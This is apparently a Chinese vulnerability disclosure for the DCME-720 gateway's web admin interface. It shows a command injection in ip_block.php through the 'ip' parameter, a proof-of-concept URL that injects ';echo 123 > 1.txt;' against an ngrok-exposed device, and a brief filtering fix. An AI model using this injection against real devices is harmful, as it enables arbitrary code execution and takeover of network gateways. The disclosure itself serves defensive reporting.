



# 漏洞概述

DCME-720多核出口网关采用多核高性能处理器，结合专用ASIC交换芯片，针对大容量用户数、多流量、多业务种类的业务需求而推出的新一代高性能互联网出口网关。

 

其web管理后台存在命令执行漏洞，攻击者可以利用该系列漏洞在设备上执行任意代码以及控制设备。

固件下载地址：https://www.dcnetworks.com.cn/ruanjian.html?title=dcme-720

 

 

# 代码审计

代码位置在设备系统中/usr/local/www/function/audit/newstatistics/ip_block.php

 

/function/audit/newstatistics/ip_block.php?action=save&switch=1&ip=;[拼接命令];

 

 

 

 

 

# 验证

登录web管理后台，访问漏洞所在url：

http://8363-218-19-14-194.ngrok-free.app/function/audit/newstatistics/ip_block.php

构造payload：

?action=save&switch=1&ip=;echo 123 > 1.txt;

创建txt文件并写入数字

 

poc如下：
 https://8363-218-19-14-194.ngrok-free.app/function/audit/newstatistics/ip_block.php?action=save&switch=1&ip=;echo%20123%20%3E%201.txt;

执行(显示修改失败但已命令执行成功)

访问1.txt文件，发现创建并且写入成功

 

 

# 修复建议

修改web后端php代码，对相关参数进行控制或过滤

 